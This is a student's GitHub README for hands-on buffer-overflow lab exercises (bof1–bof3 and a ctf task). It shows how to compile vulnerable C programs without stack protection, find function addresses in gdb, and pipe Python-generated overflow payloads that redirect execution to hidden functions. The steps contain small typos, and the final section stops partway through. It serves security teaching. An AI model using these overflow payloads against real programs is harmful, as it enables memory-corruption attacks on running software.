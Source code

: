 ![image](https://github.com/user-attachments/assets/122a4b8a-c8bc-4c72-ace5-58051d9a82d8)## @author:Mai Đức Kiên
## @Id:22110046

## Exercise-Security Lab bof1
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/stackframe.png" /> <br>

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g bof1.c -o bof1.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q bof1.out` <br>
8. Get the secretFunc function address <br>
`$> disas secretFunc` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/secretFuncAddress.png" /> <br>
9. Once we have obtained the secretFunc function address: 0804846b, we must exit gdb <br>
`$> q` <br>
10. Overflow memory we need to fill 204 characters + 4 characters of secretFunc function address <br>
`$>echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result.png" /> <br>
11. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out
`$> echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 1` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result1.png" /> <br>

## Exercise-Security Lab bof2
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/e77fc665-25ba-44a2-8082-b0075633236f)
### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Overflow memory we need to fill 40 characters + 4 characters of variable check address <br>
`$>echo $(python -c "print('a'*40+'\xff\xff\xff\xff')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/548b9b77-c695-48af-9e64-7334b3b7626d)
4. Else print out this statement printf("Yeah! You win!\n") <br>
`$>echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/738be82f-7ceb-487d-9b3b-2a985bde5b0f)


## Exercise-Security Lab bof3
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/085fefae-1b34-4858-8c32-20a934d187a4)

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
4. If you want print out this statement printf("Congrat") <br>
`$>echo $(python -c "print('a'*90)") | ./bof3.out` <br>
![image](https://github.com/user-attachments/assets/96b54264-7179-46a4-a9ce-463989c2357c)
5. Run code command. to open visual studio in terminal <br>
6. Run docker container from previously built image <br>
7. Run this command to create file bof1.out<br>
`$>gcc -g bof3.c -o bof3.out`<br>
8. Compile program with options to code execution on stack <br>
`$>gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
9. Load bof3.out in gdb <br>
`$> gdb -q bof3.out` <br>
10. Get the shell function address <br>
`$> disas shell` <br>
![image](https://github.com/user-attachments/assets/b52f5476-56e8-4205-8f8a-c3883ccd9be9)
11. If you want print out this statement printf("You made it! The shell() function is executed\n") <br>
`$>echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out` <br>
![image](https://github.com/user-attachments/assets/d61f8663-c9d7-48af-b018-a25c209fa610)


## Exercise-Security Lab ctf
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder

### Visualize the initial attack idea

![image](https://github.com/user-attachments/assets/9c37ba1d-1c92-48e9-9256-af83e1bf88c1)

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g ctf.c -o ctf.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q ctf.out` <br>
8. Get the myFunc function address <br>
`$> disas myFunc` <br>
![image](https://github.com/user-attachments/assets/7e128f35-fce5-40b9-a216-8648424b1849)
9. Create file flag1.txt <br>
![image](https://github.com/user-attachments/assets/563fd6da-3ba2-4729-8f73-4bbc74a31a21)









   
